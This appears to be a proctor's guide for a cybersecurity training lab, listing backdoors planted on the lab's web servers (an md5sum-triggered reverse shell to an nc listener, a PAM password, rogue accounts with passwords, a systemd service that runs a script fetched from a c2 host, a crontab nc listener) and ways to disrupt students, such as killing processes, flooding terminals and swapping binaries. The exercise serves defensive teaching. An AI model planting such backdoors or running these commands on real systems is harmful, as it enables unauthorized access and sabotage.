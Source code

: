 # Hacker Activity
Things that lab proctors can do to the "web servers" to keep the lab interesting.

To get access to the web servers refer to the backdoors document.

## md5sum backdoor
run `nc -nlvp 4444` and when users run the `md5sum` command they'll connect to you.

## PAM backdoor
ssh into on any box using the password *I_love_hacks*

## SSH key
ssh into root on any box without a password using the ssh key

## very_suspicious_user
ssh into very_suspicious_user using the password *IAMAHACKER*

## ftp user
ssh into the ftp user on any box using the password *cybersec*

## malicious systemd service
You can put a script named run.sh on a webserver (port 8080) on the c2 host and the malicious systemd service will periodically try to run it.

## crontab nc listener
run `nc -v <host> 666` to connect to port 666 on any of the web hosts.

- Run walls
  - `wall "Hello there"`
- Echo text to terminal
  - `echo "Hello" > /dev/pts/0"`
- Kill random processes
  - `ps -A` to find a victim, `kill -9 <PID>` to kill
  - DO NOT kill PID 1, this will restart the server
- Mess up their terminal
  - `cat /dev/random > dev/pts/0`
- Turn services off and on
  - `systemctl stop vsftpd`
  - Don't turn off ssh
- Mess with binaries
  - For example, replace `bash` with a symlink to `pwsh` or something.
  - Also replace nano and vi with emacs
- Make new hacker accounts
  - `adduser not_a_malicious_account`
